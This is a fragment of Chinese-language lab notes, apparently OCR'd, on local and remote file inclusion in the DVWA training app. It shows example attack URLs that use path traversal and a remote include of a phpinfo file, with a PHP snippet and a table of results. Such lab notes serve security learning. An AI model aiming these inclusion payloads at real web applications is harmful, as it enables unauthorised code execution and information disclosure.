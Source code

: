    验证，原始内容，文件包含内容，成功执行

   https://192.168.61.24/dvwa/vulnerabilities/fi/?page=../../phpinfo.php

4. 攻击一远程文件执行

5. 这个文件可以在任何地方?只要有php代码的文件都会执行?

   验证、原始内容、文件包含内容、成功执行

   https://192.168.61.24/dvwa/vulnerabilities/fi/?page=http://127.0.0.1/phpinfo.txt

   https://192.168.61.24/dvwa/vulnerabilities/fi/?page=http://127.0.0.1/phpinfo.php

   ```bash
   <?php
     phpinfo();
   ?>
   ```

   问题

   | 执行文件    | SERVER_NAME   | SERVER_ADDR   |
   | ----------- | ------------- | ------------- |
   | phpinfo.php | 127.0.0.1     | 127.0.0.1     |
   | phpinfo.txt | 192.168.61.24 | 192.168.61.24 |

   phpinfo.txt才是正解，服务端执行



攻击思路

![image-20210409170707918](media/19.1.常见攻击/image-20210409170707918.png)





Low等级

本地文件读取
Low方法失效
过滤了某些字符
